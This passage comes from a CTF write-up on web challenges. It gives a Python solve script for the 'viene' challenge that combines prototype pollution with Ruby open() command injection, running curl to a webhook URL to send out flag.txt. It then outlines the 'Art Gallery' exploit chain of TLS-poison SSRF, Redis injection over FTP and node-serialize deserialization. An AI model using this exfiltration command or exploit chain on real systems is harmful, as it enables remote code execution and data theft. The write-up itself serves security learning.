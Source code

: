 ### Step 2: Ruby open()

Now that you're in the PUT logic of the viene controller in the Rails server, you get free RCE. 

```py
import requests

VIENE_URL_SUBMIT = 'http://vienelibrary.ctf.maplebacon.org/submitaviene'
VIENE_URL = "http://vienelibrary.ctf.maplebacon.org/findaviene"

put_data = {"__proto__": {"headers": {"X-HTTP-Method-Override": "PUT"}}}

payload = {"viene":"|curl https://webhook.site/f6a4aed1-64b2-4b8e-bb60-a970842d6c24 --data \"$(cat flag.txt)\""}

r = requests.post(VIENE_URL_SUBMIT, json=put_data)
print(r.text)
r = requests.post(VIENE_URL, json=payload)
print(r.text)
```
Someone please affirm me and say they remember vine.

## Art Gallery (3 solves)
Art Gallery was my most convoluted web challenge which is semi-inspired by Harmony Chat (DragonCTF 2020) and Contrived Web Problem (PlaidCTF 2020). Shoutout to our sponsor for the #sponsorship-debugging help. :> 

{{< image src="/images/ArtGallery.png" alt="My Art Gallery" position="center" style="border-radius: 8px;" >}}

Here is the TL;DR - 

```
1. Slightly modified TLS poison to SSRF the FTP server
2. Use FTP server to SSRF an "image file" containing Redis commands to the Redis server via RESP
3. "image file" overwrites a user's sessional key with a node-serialize payload which fires when user visits site
4. flag
```

### Step 0: WTF does this code do
The general idea of the app was as so:

- An image gallery that you could upload your own pictures to
- The images were served via FTP
- Session management was done via Redis, storing your art token and an array of filenames to retrieve from FTP, which were serialized for ease of storage

This challenge had alot of moving parts, so we will examine each individually to see how they all work together.


#### Insecure deserialization: node-serialize
Consult the following code: 

